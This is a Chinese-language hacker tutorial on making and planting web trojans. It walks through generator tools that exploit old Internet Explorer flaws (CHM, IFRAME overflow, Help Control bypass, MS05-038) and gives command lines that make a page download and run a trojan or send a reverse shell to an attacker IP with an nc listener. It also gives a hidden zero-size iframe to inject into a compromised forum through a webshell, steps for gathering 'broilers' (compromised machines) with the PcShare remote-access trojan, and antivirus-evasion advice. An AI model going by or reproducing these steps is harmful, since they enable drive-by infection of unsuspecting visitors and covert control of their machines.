

图4

得到 `pc.exe` 的HTTP下载地址是：`http://zhiyeqianqian.51web.cn/pc.exe`。

#### 三、生成网页木马

由于网页木马是利用了IE浏览器的漏洞，因此根据浏览器漏洞可以制作出各种各样的网页木马。根据利用漏洞的不同，可以把网页木马分成不同种类。这个工作I.C.X大哥今年6月份的时候就已经做过了，写了一个网页木马专题，有兴趣的朋友可以去看看这个专题。我们菜鸟人道浅薄，就只能从另一个角度来学习了，那就是高手们制作的网页木马生成器！

### 1. 价值1000元RMB的木马

不知道什么时候开始，网页木马开始卖钱，而且开价还不低，我们今天一起来看一下这个古老又昂贵的木马是怎么回事。解压缩后，如图5。



图5

首先，将我们刚才生成的木马改名为 `IEXPLORE.EXE` 后，替换掉NND目录里的文件。这里为了多次实验，我没有用木马来测试，而是用了一个绿色软件 `htmltool.exe`（网页加密工具）来替换，替换后如图6。



图6

接着，进入另一个MUMA目录，用记事本打开 `index.htm` 文件，找到里面的 `http://192.168.1.123/muma/HELPbo1000rmb/muma/logo.jpg`，替换成你自己的木马的真实地址。比如我们有一个网站：`http://www.web.com/`，我们要放到它的muma目录中，那么这里就写为 `http://www.web.com/muma/logo.jpg`，如图7。



图7

然后回头双击“生成.bat”，就会在muma目录里生成一个 `logo.jpg`。把这个 `logo.jpg` 和 `index.htm` 上传到 `http://www.web.com/muma/` 目录中；然后叫人访问这个地址，就会自动运行刚才我们放入的 `IEXPLORE.EXE` 了。图8是我用一台Windows 2000 SP4的机器浏览后的结果。



图8

同样原理的在网上还有一个叫做JPG网页木马生成器（佛山…）。

## 2. CHM木马

使用的是天涯专用网页木马生成器，打开后如图9。选择好一个 exe 文件后，单击生成，会在你选择的 exe 文件的目录下生成两个同名的 htm 和 CHM 文件。比如这里我使用一个“手机炸弹.exe”，将生成“手机炸弹.htm”和“手机炸弹.chm”两个文件。把这两个文件一起上传到网上之后，只要访问手机炸弹.htm 就会中招。



#### 3. 冰狐浪子木马生成器

说到网页木马，我们不得不见识一下老大冰狐浪子的作品。在 2005 年初的时候，Windows XP 用户已经占了个人用户的很大一部分了，而当时微软推出的 XP SP2 补丁也已经被广大用户打得严严实实来保护自己的爱机，此时大部分的网页木马都失去了作用，而冰狐浪子这时候做出了该生成器（虽然对外发布得比较晚）。他利用了当时的 IFRAME 溢出漏洞首次在人们面前穿透了 XP SP2 做成网页木马。

解压缩后，我们打开 wymmpro.exe，界面如图10。图中标识部分就是利用 IFRAME 漏洞的设置，主要针对 XP 用户。首先填好你上传后的木马的位置，比如我这里写的是 192.168.1.123/muma/muma.exe，然后会生成两个 html 文件，第一个页面是用来判断用户的系统类型的，如果用户是 XP SP2 的，那么就使用 IFRAME 溢出方式，调用第二个页面来攻击。因此这里我将第一个网页名设为 default.htm，而第二个网页名则设为 muma.htm。IE 进程与内存方式的选项可以根据你的需求来改变，我保持默认就好了。接下来是当判断出用户为 2K 系统时的动作，它利用的也是 CHM 漏洞，首先我们需要将自己的木马放到生成器里的一个 CHM 文件夹中，如图11。假设我们把 pc.exe 放到 CHM 文件夹中，才可以在生成器里的“木马程序名称”处填上 pc.exe。





现在需要填写生成的 CHM 文件的名称，这里可以随便写，比如我写为 muma.chm，但是一旦 muma.chm 上传到网上，就需要把它的完整地址记下来。现在我把它放到 http://192.168.1.123/muma/muma.chm 里，所以就把这个地址写到对应位置。

最后还有一个是否对生成的网页加密与压缩，我们不要选上，直接点“生成”按钮。这时候就生成了三个文件：default.htm、muma.htm、muma.chm。将这三个文件一起上传到网上，然后访问 default.htm 文件就会中招了。不过有个缺陷是，如果 Windows XP 用户访问后，由于 IFRAME 溢出方式的攻击，会使整个机器卡到接近死机的程度，隐蔽性很差，所以如果真的做成网页木马的方式，那么后面我们还需要进行很大的改进。

#### 4. Help Control Local Zone Bypass 漏洞

冰狐浪子老大的 IFRAME 虽然穿透了 XP SP2，可是老是这样把人家的机器卡死也不是个办法。终于，没过多久就出现了一个可爱的 Help Control Local Zone Bypass 漏洞，一样可以穿透 XP SP2（同时通杀 2000、2003 系统）。而它也不是溢出型漏洞，所以中马者会舒服很多。



这个漏洞出现后，网上流传了 N 多个不同版本的生成器，什么浩天 sp2WMUM 版、侠客网页木马、天知道最新 Hclzbe 网页木马生成器、阿福修改版……等等等等。可是真正有效的并没有几个，这里我送给大家一个绝对好用的 Goldsun 版，打开后如图12。首先选择一个 exe 文件，这里我挑了个 Windows 按钮突破专家，然后填写网页木马的目录。下面有一栏可以填写网页木马显示的内容，这里保留默认。目标系统处把 Windows 2000 和 XP 都选上，然后单击“生成”按钮。

接着就生成了三个文件：joke.htm、young.css（其实就是原先的 exe 文件改了个名）、young.gif。把这三个文件一起上传后，访问 joke.htm，如图13。首先弹出一个帮助框，然后才运行 exe 文件（该网页木马将 young.css 改名复制到 C 盘下命名为 boot.exe 然后运行该文件）。至于其它的生成器，实际上效果很不理想，而且连接的界面都是统一的，这里就不介绍了。

#### 5. 溢出型网马

也许大家会奇怪，刚才不是介绍过了一个 IFRAME 的溢出型网马了吗？为什么还要提这种呢？其原因是，这种网页木马很厉害，它除了让你去下载并执行某文件，甚至可以让你反向发一个 shell 到指定的 IP。比较著名的是 MS05038 漏洞由我们可爱的无敌老大改写的 exp。

## 小鸡快跑



图13

这里有几个版本的，我把它们改了一下名字以区分开来。MS05038DLshell.exe 是下载并执行指定文件的 exp。在 CMD 下运行后可以得到帮助信息，知道其格式为：`MS05038DLshell.exe <木马的地址> [要生成的文件名]`，例如 `MS05038DLshell.exe http://192.168.1.123/muma/muma.exe ms05038.htm`，效果如图14。



图14

这样就在当前目录下生成了 `ms05038.htm`，将它上传到网上，访问者就会自动去下载并运行 `http://192.168.1.123/muma/muma.exe`（注意，这个漏洞发生在 `bnnmgr11.dll` 上，而不安装 OFFICE 或者是微软的 Visual Studio 是不会有这个文件的，也就测试不成功了）。

`ms05038revershell.exe` 是以当前用户权限反向发送一个 shell 到指定 IP 地址，格式为：`ms05038revershell.exe <监听IP地址> <监听端口> [文件名]`，例如 `ms05038revershell.exe 192.168.1.123 1234 038.html`。这样当本地使用 `nc -l -p 1234` 监听好端口后，就等着别人把 shell 发送过来。不过在测试过程中，这个网马不是每次都成功，而且由于无效在里面写了一句 `<script>location.reload();</script>` 不断地加载自己以提高成功率，结果使得访问它的人会很卡（比 IFRAME 溢出还卡），所以它也不是做网页木马的首选。

类似的漏洞后来还出了好几个，用法基本上也一样，一般在 EST 的论坛上都会有人讨论，我就不多说了。

#### 四、挂马

这里用我的论坛做演示，假设入侵了我的论坛后，使用上面的方法制作了一个网页木马，放在 `http://zhiyeqianqian.51web.cn/pc/index.htm` 里，那么把下面这一段代码嵌入我论坛页面任意页，比如 `reg.asp`。

`<iframe src="http://zhiyeqianqian.51web.cn/pc/index.htm" width="0" height="0" frameborder="0"></iframe>`

步骤如下：首先使用 Webshell 的文本编辑功能编辑 `reg.asp`，然后将代码复制到该页的最下方，然后单击保存。这时候任何访问 `reg.asp` 的人就相当于自动浏览了我们设置好的网页木马了，如图15。



图15

#### 五、收获

掌握了上面的知识，也许有很多朋友已经开始挂上心爱的 PcShare 了，那么如何让肉鸡上线呢？我这里简单地演示一遍。打开 PcShare 后，我们要用 FTP 方式将先前设置的 IP 文件刷新，单击刷新 IP 按钮后如图16，填好自己的 FTP 地址、用户名与密码后，最重要的就是设置好本机的 IP 地址与监听端口，然后单击“刷新 IP”按钮就等着肉鸡上线了。不过前提可要你填公网 IP 啊（没等到公网 IP 的朋友先不要急，以后菜鸟学堂会专门指导大家如何解决这个问题的）。



图16

## 六、其它

上面提到了这么多网页木马，可是它们有一个共同点：被杀！一般的免杀方法是给代码加密，我们可以用到刚才提过的 `htmltool.exe` 来解决这个问题。使用方法比较简单，这里就不截图了。不过这样生成的文件并非每次都可以正常运行，更高级的方法会在下节课提到。不过下节课里讲到的东西没有一点 HTML 基础可是不行的哦，想学的朋友们这个月就下点苦功夫吧！

还有，挂马的时候用上述代码太嚣张了，任何一个有点知识的人一看有一个 iframe 并且所有属性都设为 0 就知道有问题，哪怕是弱智管理员也可以把你这段代码一删了之。因此如何改进挂马的代码，也是一个值得探讨的问题。而要挂马，没有 webshell 是不行的，如何最快速地搜集到最多最好的 webshell，又是一个问题。如何才可以解决这些问题，我们一起期待下一堂课吧！

### 终极完美的网页木马

悟空也闭关

经过前一堂课的训练，唐僧、八戒等人终于学会了制作网页木马。不过可惜的是，自己访问的时候，成功率非常高，可是叫别人来访问的时候，却总是失败。于是乎一个月过去了，还是没有多大收获。想起悟空千叮咛万嘱咐地说过要去学习 HTML 的基础，然后才能做出完美的网页木马。唐僧每天都是头悬梁、锥刺骨地泡在图书馆里啃书，几天下来，终于学有所成，破关而出……

悟空在课堂上清了清嗓子，问道：“大家回去实践了上节课教的网页木马生成器之后，不知有何感想？”

八戒抢着长音说：“跟——着——你——有——肉——鸡——吃——”

沙僧比较老实，拿出上堂课的笔记，逐条总结了网页木马在实战中暴露、失效、易被查杀、代码特征明显、状态栏提示、更新时间变化、体积过大等问题，并指出需要改进免杀与隐蔽性。

#### 一、网页木马的免杀

对于目前来说，较好用的网页木马还是 Help Control Local Zone 漏洞，因此本文用 ie_xp_sp2.exe 来生成网页木马并进行解释。

上堂课中已经知道会生成三个文件：`joke.htm`、`young.gif`、`young.css`。其中 `young.css` 是 pcshare 马，本文主要讲 `joke.htm` 与 `young.gif` 的免杀。

先用 htmltool.exe 对 `joke.htm` 加密：通过“选择”按钮指定源文件和目标文件，再点击“加密”。如果过一阵子需要再次免杀，可重复加密。

